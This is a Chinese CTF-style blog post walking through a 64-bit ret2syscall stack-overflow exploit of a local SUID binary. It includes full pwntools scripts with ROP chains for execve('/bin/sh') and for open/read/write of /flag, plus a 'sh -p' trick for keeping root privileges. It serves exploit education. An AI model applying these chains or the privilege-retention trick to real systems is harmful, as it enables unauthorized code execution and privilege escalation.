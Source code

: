﻿---
layout:     post
title:      栈溢出实现open，read，write
subtitle:   
date:       2023-11-11
author:     Kody Black
header-img: img/post-bg-normal.jpg
catalog: true
tags:
    - pwn
---

其实没啥特别的，就是一个ret2syscall，但是之前也没做过64位的，所以也补充记录一下：

首先，把需要的库文件放到当前目录，并补充LD_LIBRARY_PATH

```bash
❯ ./lyl
./lyl: error while loading shared libraries: libcapstone.so.5: cannot open shared object file: No such file or directory
❯ export LD_LIBRARY_PATH=$LD_LIBRARY_PATH:.
❯ checksec --file=./lyl
[*]
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

程序很简单，有一个read没有限制输入长度，可以栈溢出，而且还会输出buf的地址。

![16997105730641699710572282.png](https://fastly.jsdelivr.net/gh/distiny-cool/pictures@main/images/16997105730641699710572282.png)

看到RSI和RBP相距0x90，确定溢出长度。

```bash
❯ ROPgadget --binary ./lyl --only "syscall"
Gadgets information
============================================================
0x0000000000401e46 : syscall

Unique gadgets found: 1
```

有syscall，进行ret2syscall即可，poc如下：

```
from pwn import *

# context.log_level = 'debug'
p = process("./lyl")

# 0x0000000d000401e46 : syscall
# 0x0000000000401e36 : pop rsi ; ret
# 0x0000000000401e3e : pop rdi ; ret
# 0x0000000000401e26 : pop rdx ; ret
# 0x0000000000401e2e : pop rax ; ret

syscall = 0x401E46
pop_rsi = 0x401E36
pop_rdi = 0x401E3E
pop_rdx = 0x401E26
pop_rax = 0x401E2E

p.recvuntil("located at: ")
buf_addr = int(p.recvline()[:-2], 16)
success("buf_addr = " + hex(buf_addr))

# gdb.attach(p , 'b read')
payload = (
    b"/bin/sh\x00"
    + b"a" * 136
    + b"deadbeef"
    + p64(pop_rdi)
    + p64(buf_addr) # execve第一个参数是文件名，这里传入buf_addr
    + p64(pop_rsi)
    + p64(0) # execve第二个参数是argv，这里传入空指针
    + p64(pop_rdx)
    + p64(0) # execve第三个参数是envp，这里传入空指针
    + p64(pop_rax)
    + p64(0x3b) # execve的系统调用号
    + p64(syscall)
)

p.sendline(payload)
p.interactive()
```

但是，得到shell后，我是想得到flag，但是我的shell只是一个普通权限，flag读取需要root权限。

```
❯ ls -al ./lyl
-rwsrw-r-- 1 kody kody 21803 11月 11 14:33 ./lyl
```

注意到该文件有suid属性，但是，大多数现代操作系统和 shell 在处理 SUID 脚本或程序时采取了一些安全措施，通过execve函数执行/bin/sh，得到的shell会放弃额外的权限，仅以实际用户的身份运行。

那么，我们换种思路，不执行sh，直接使用系统调用实现我们的需求：

（open 打开文件，read读取文件到buf，write写文件到标准输出）

```
from pwn import *

# context.log_level = 'debug'
p = process("./lyl")
binary = ELF("./lyl")

# 0x0000000d000401e46 : syscall
# 0x0000000000401e36 : pop rsi ; ret
# 0x0000000000401e3e : pop rdi ; ret
# 0x0000000000401e26 : pop rdx ; ret
# 0x0000000000401e2e : pop rax ; ret

syscall = 0x401E46
pop_rsi = 0x401E36
pop_rdi = 0x401E3E
pop_rdx = 0x401E26
pop_rax = 0x401E2E

p.recvuntil(b"located at: ")
buf_addr = int(p.recvline()[:-2], 16)
success("buf_addr = " + hex(buf_addr))

# gdb.attach(p , 'b read')
# 构造系统调用open
payload = (
    b"/flag\x00"
    + b"a" * 138
    + b"deadbeef"
    + p64(pop_rdi)
    + p64(buf_addr)
    + p64(pop_rsi)
    + p64(0)
    + p64(pop_rax)
    + p64(2)
    + p64(syscall)
)
# 构造系统调用read
payload += (
    p64(pop_rdi)
    + p64(3) # 因为open打开文件，会返回文件句柄，从3开始
    + p64(pop_rsi)
    + p64(buf_addr)
    + p64(pop_rdx)
    + p64(0x100)
    + p64(pop_rax)
    + p64(0)
    + p64(syscall)
)

# 构造系统调用write
payload += (
    p64(pop_rdi)
    + p64(1)
    + p64(pop_rsi)
    + p64(buf_addr)
    + p64(pop_rdx)
    + p64(0x100)
    + p64(pop_rax)
    + p64(1)
    + p64(syscall)
)

p.sendline(payload)
p.interactive()
```

其实，以如下的方法执行execve，得到的sh是有可能拥有root权限的。

```c
char *argv[] = {"sh", "-p", NULL};
execve("/bin/sh", argv, NULL);
```

解释一下原因，GPT说的很好，就不复述了

> 来解释一下SUID权限。当一个可执行文件被赋予SUID权限后，无论谁运行这个程序，程序都将以文件所有者的权限运行。在你的例子中，如果`a.out`程序拥有SUID权限并且它的所有者是root，那么理论上，无论谁执行这个程序，它都应该以root身份运行。
>
> 然而，这个程序中有一些关键的细节需要考虑：
>
> 1. **源代码**: 程序创建了一个指向`/bin/sh`的新进程。`execve`函数用来执行一个新的程序，替换当前进程的映像、数据和堆栈等。
> 2. **`-p`参数**: 在调用`/bin/sh`时使用的`-p`参数很重要。在很多shell程序中，`-p`参数意味着shell会忽略某些环境变量，例如`$PATH`，这通常是为了安全性。但更重要的是，在某些系统上，当使用`-p`参数启动shell时，如果shell是以SUID程序的一部分启动的，它可能会保持其SUID权限。
> 3. **操作系统的具体行为**: 不同的操作系统和shell版本对SUID程序的处理可能有所不同。一些系统可能会在SUID程序中剥离权限，尤其是在涉及shell的情况下，以防止安全漏洞。
>
> 总的来说，如果操作系统和shell允许，在这种情况下执行的shell可能会保持root权限。但这也极大地依赖于特定的操作系统、shell版本和系统配置。在实际情况中，出于安全考虑，许多现代系统都采用了额外的措施来限制SUID程序的权限，尤其是在它们尝试启动shell时。

试了一下，在ubuntu14中得到的是root权限的shell，而Ubuntu22中只有普通用户权限。
